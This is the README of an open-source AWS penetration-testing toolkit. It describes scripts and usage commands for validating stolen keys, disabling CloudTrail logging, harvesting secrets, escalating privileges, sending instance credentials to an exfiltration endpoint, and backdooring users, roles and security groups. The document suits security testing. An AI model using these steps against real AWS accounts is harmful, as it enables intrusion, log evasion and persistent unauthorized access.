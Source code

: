 # AWS pwn

## Summary

This is a collection of horribly written scripts for performing various tasks related to penetration testing AWS. Please don't be sad if it doesn't work for you. It might be that AWS has changed since a given tool was written or it might be that the code sux. Either way, please feel free to contribute.

Most of this junk was written by Daniel Grzelak but there's been plenty of contributions, most notably Mike Fuller.

## Requirements

```
pip install -r requirements.txt
```

Make sure to also [set up your aws credentials](https://github.com/boto/boto3#quick-start) in `~/.aws/credentials`.

## Reconnaissance

Things to do with pre-compromise information gathering.

* validate_iam_access_keys.py - Given a TSV file of access key + secret [+ session] combinations, checks access validity and returns identity information of the principal.
```
./validate_iam_access_keys.py -i /tmp/keys.txt -o /tmp/out.json
```
* validate_s3_buckets.py - Given a text file with one word per line, checks whether the buckets exist and returns basic identifying information.
```
./validate_s3_buckets.py -i /tmp/words.txt -o /tmp/out.json
```
* validate_iam_principals.py - Given a text file of principals (e.g. user/admin, role/deploy), checks whether the principals exist in a given account. 
```
./validate_iam_principals.py -a 123456789012 -i /tmp/words.txt -o /tmp/out.json
```
* validate_accounts.py - Given a text file of account ids and account aliases, checks whether the accounts exist.
```
./validate_accounts.py -i /tmp/accounts.txt -o /tmp/out.json
```

## Exploitation

Things that will help you gain a foothold in an account.

## Stealth

Things that might help you stay hidden after compromising an account.

* disrupt_cloudtrail.py - Attempts to disrupt/cripple cloudtrail logging in the specified way.
```
./disrupt_cloudtrail.py -s
```

## Exploration

Things to help you understand what you've pwned.

* dump_account_data.sh - Calls a bunch of generic account-based read/list/get/describe functions and saves the data to a given location. Very noisy but great for a point in time snapshot.
```
./dump_account_data.sh /tmp/
```

## Elevation

Things to help you move around an account and gather different levels of access.

* dump_instance_attributes.py - Goes through every EC2 instance in the account and retrieves the specified instance attributes. Most commonly used to retrieve userData, which tends to contain secrets.
```
./dump_instance_attributes.py -u -o /tmp/
```
* dump_cloudformation_stack_descriptions.py - Retrieves the stack descriptions for every existing stack and every stack deleted in the last 90 days. Parameters in stack descriptions often contain passwords and other secrets.
```
./dump_cloudformation_stack_descriptions.py -o /tmp/data
```
* assume_roles.py - Attempts to assume all roles (ARNs) in a file or provided by the list-roles API.
```
./assume_roles.py -o /tmp/out.json
```
* add_iam_policy - Adds the administrator and all action policy to a given user, role, or group. Requires IAM putPolicy or attachPolicy privileges.
```
./add_iam_policy.py -u myuser -r myrole -g mygroup
```
* bouncy_bouncy_cloudy_cloud - Bounces a given ec2 instance and rewrites its userData so that you can run arbirtary code or steal temporary instance profile credentials.
```
./bouncy_bouncy_cloudy_cloud.py -i instance-id -e exfiltration-endpoint
```

## Persistence

Things to help maintain your access to an acccount.

* rabbit_lambda - An example Lambda function that responds to user delete events by creating more copies of the deleted user.
* cli_lambda - A lambda function that acts as an aws cli proxy and doesnt require credentials.
* backdoor_created_users_lambda - A lambda function that adds an access key to each newly created user.
* backdoor_created_roles_lambda - A lambda function that adds a trust relationship to each newly created role.
* backdoor_created_security_groups_lambda - A lambda function that adds a given inbound access rule to each newly created security group.
* backdoor_all_users.py - Adds an access key to every user in the account.
* backdoor_all_roles.py - Adds a trust relationship to each role in the account. Requires editing the file to set the role ARN.
* backdoor_all_security_groups.py - Adds a given inbound access rule to each security group in the account. Requires editing the file to set the rule.

## Exfiltration

Things to help you extract and move data around in AWSy ways.

* dynamodump - https://github.com/bchew/dynamodump


## Miscellanea

Other things that I was either to stupid or too lazy to classify.

* reserved_words.txt - A list of words/tokens that have some special meaning in AWS or are likely to soon have some special meaning.
* endpoints.txt - A somewhat up to date list of API endpoints exposed by AWS.
* integrations.txt - A TSV of services that integrate with AWS via roles or access keys and their account ids, default usernames etc.
* download_docs.sh - The command line to wget all the AWS docs because I'm stupid and waste time redoing it every time.

## To do

* Add passwords to users for persistence
* Dump stack resources
* Validate mfa
* Add more calls to dump_account_data
* Add more log disruption methods
* Create a cloudtrail parsing script for grabbing goodies out of cloudtrail
* Create an s3 bucket permission enumerator
* Create tool to grab aws credentials from common places on disk
* Create cloning tool
* Create silly privelege escalation tool that uses passrole
* Validate queues
* Validate notification topics
* Fix up persistence scripts to use arguments instead of constants inside the scripts



laaa,s,s,ad
